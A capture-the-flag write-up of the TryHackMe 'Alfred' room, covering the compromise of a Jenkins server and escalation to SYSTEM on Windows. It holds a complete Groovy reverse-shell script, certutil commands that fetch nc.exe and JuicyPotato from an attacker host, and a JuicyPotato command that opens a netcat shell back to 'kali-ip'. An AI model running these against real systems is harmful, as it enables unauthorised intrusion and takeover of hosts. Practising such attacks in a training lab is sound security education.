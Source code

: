 # Alfred [THM](https://tryhackme.com/room/alfred)
![alfred-01]()

## Recon

Lets scan the target with `nmap`, however do note that the target doesnt respond to pings,
so we have to add the `-Pn` switch:

`nmap -sC -sV -A -p- -Pn 10.10.80.140 -oN nmap.result`


![nmap-res-02]()

We have the following: 

+ An IIS server on port 80. 
+ A Jetty server on port 8080.
+ RDP on port 3389. 

Looks like the IIS server on port 80 is a default site, still worth to take a quick look at it, maybe something is hidden there. After that we will focus on the Jetty server. 


### IIS port 80 


Lets open up our browser and navigate towards `http://10.10.80.140/`

![site-03]()


Not much to see here, the email address may have revealed a username but nothing else here. 

I ran `ffuf` to try and find hidden content, but that came up empty. Also took a look at the source code, 
nothing there for us. I think its time to move to the Jetty server on port 8080. 



### Jetty port 8080

Lets navigate towards `http://10.10.80.140:8080/`

![site-04]()

We are prompted for credentials to login, no sign up link. Lets try brute forcing this, as Jenkins doenst 
impose any restrictions against this attack. 

I capture a login request in Burp, and send it to intruder: 

![login-req-05]()


I then used a sniper attack for the admin account with `/usr/share/wordlists/john.txt`: 

![brute-06]()


Lets try to log in with `admin : admin`

![jenkins-07]()


Were in! Lets go to the script console: 

`http://10.10.62.32/script`


![script-08]()


From here we can use the following Groovy reverse shell:

```groovy
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

```


Make sure to update your IP and port. 

Then start a listener with:

`nc -lnvp 9009`

Execute the code in the script console:

![execute-09]()

This should give us a shell access to the system: 

![shell-10]()


## Privilege Escalation


If we take a look at our user's group membership with:

`net user bruce`

![groups-11]()

We can see we are a part of the administrators group. This got me thinking about user privileges. 
So i decided to take a look with:

`whoami /priv`

![privs-12]()


we can see we have the `SeImpersonate` privilege, lets try a [potato attack](https://github.com/ohpe/juicy-potato/tree/master).

After you download the attack to your kali machine, make sure to grab a copy of `/usr/share/windows-resources/binaries/nc.exe` to your working directory as well. 

Then start a pyhton web server with:

`python3 -m http.server 80`

Then, on the target cd into bruce's home directory and download both `nc.exe` and `JuicyPotato.exe` with:

`certutil -urlcache -f http://kali-ip/nc.exe nc.exe`

`certutil -urlcache -f hrrp://kali-ip/Juicypotato.exe potato.exe`


Start the listener on yout kali with:

`nc -lnvp 9001`

And execute the following on the target:

`potato.exe -l 9001 -p C:\windows\system32\cmd.exe -a "/c c:\Users\bruce\nc.exe -e cmd.exe kali-ip 9001" -t *`


This should give you a shell as the system:

![root-13]()


